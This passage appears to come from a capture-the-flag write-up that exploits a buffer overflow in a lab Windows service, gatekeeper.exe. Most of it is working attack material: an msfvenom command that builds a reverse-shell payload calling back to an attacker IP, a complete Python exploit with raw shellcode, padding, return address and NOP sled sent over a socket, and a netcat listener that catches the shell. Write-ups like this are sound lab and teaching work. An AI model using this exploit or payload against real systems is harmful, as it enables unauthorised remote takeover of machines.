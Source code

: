 Now, we are ready to get a reverse shell aka own our Windows VM machine via BOF. Let's generate our payload, don't forget to change LHOST to your Kali machine IP address:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.105 LPORT=5555 -f rb -a x86 --platform windows -b "\x00\x0A"

-b option allows us to exclude the badchars we have found earlier.
```
![Shellcode](shellcode.png) 

We need to copy and paste this into our getting a shell template:
```Python
#!/usr/bin/python

import socket

shellcode = ("\xba\x29\xc3\x98\x0f\xda\xce\xd9\x74\x24\xf4\x5e\x33\xc9\xb1"
"\x52\x31\x56\x12\x83\xee\xfc\x03\x7f\xcd\x7a\xfa\x83\x39\xf8"
"\x05\x7b\xba\x9d\x8c\x9e\x8b\x9d\xeb\xeb\xbc\x2d\x7f\xb9\x30"
"\xc5\x2d\x29\xc2\xab\xf9\x5e\x63\x01\xdc\x51\x74\x3a\x1c\xf0"
"\xf6\x41\x71\xd2\xc7\x89\x84\x13\x0f\xf7\x65\x41\xd8\x73\xdb"
"\x75\x6d\xc9\xe0\xfe\x3d\xdf\x60\xe3\xf6\xde\x41\xb2\x8d\xb8"
"\x41\x35\x41\xb1\xcb\x2d\x86\xfc\x82\xc6\x7c\x8a\x14\x0e\x4d"
"\x73\xba\x6f\x61\x86\xc2\xa8\x46\x79\xb1\xc0\xb4\x04\xc2\x17"
"\xc6\xd2\x47\x83\x60\x90\xf0\x6f\x90\x75\x66\xe4\x9e\x32\xec"
"\xa2\x82\xc5\x21\xd9\xbf\x4e\xc4\x0d\x36\x14\xe3\x89\x12\xce"
"\x8a\x88\xfe\xa1\xb3\xca\xa0\x1e\x16\x81\x4d\x4a\x2b\xc8\x19"
"\xbf\x06\xf2\xd9\xd7\x11\x81\xeb\x78\x8a\x0d\x40\xf0\x14\xca"
"\xa7\x2b\xe0\x44\x56\xd4\x11\x4d\x9d\x80\x41\xe5\x34\xa9\x09"
"\xf5\xb9\x7c\x9d\xa5\x15\x2f\x5e\x15\xd6\x9f\x36\x7f\xd9\xc0"
"\x27\x80\x33\x69\xcd\x7b\xd4\x56\xba\x83\x4d\x3f\xb9\x83\x98"
"\x0c\x34\x65\xc8\x62\x11\x3e\x65\x1a\x38\xb4\x14\xe3\x96\xb1"
"\x17\x6f\x15\x46\xd9\x98\x50\x54\x8e\x68\x2f\x06\x19\x76\x85"
"\x2e\xc5\xe5\x42\xae\x80\x15\xdd\xf9\xc5\xe8\x14\x6f\xf8\x53"
"\x8f\x8d\x01\x05\xe8\x15\xde\xf6\xf7\x94\x93\x43\xdc\x86\x6d"
"\x4b\x58\xf2\x21\x1a\x36\xac\x87\xf4\xf8\x06\x5e\xaa\x52\xce"
"\x27\x80\x64\x88\x27\xcd\x12\x74\x99\xb8\x62\x8b\x16\x2d\x63"
"\xf4\x4a\xcd\x8c\x2f\xcf\xfd\xc6\x6d\x66\x96\x8e\xe4\x3a\xfb"
"\x30\xd3\x79\x02\xb3\xd1\x01\xf1\xab\x90\x04\xbd\x6b\x49\x75"
"\xae\x19\x6d\x2a\xcf\x0b")

buff = "A"*146 + "\xc3\x14\x04\x08" + "\x90" * 8 + shellcode
RHOST = "192.168.0.227"
RPORT = 31337

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((RHOST,RPORT))
s.send(buff+'\r\n')
s.close()
```
Before running the Python script, let's start a reverse shell in another terminal:
```bash
nc -nlvp 5555
```
![nc ReverseShell](ncReverseShell.png)

Now, let's run our python script:
```python ./shellcode.py
```
When we check our nc listener, we can see that we have a reverse shell now!...

![Revershell](reverseshell.png)

Woohoo, we are connected to this machine by exploiting BOF vulnerability that gatekeeper.exe has so let's try our final script on THM platform now.

[<= Go Back to BOF Menu](BOFMain.md)

[<= Go Back to Main Menu](index.md)
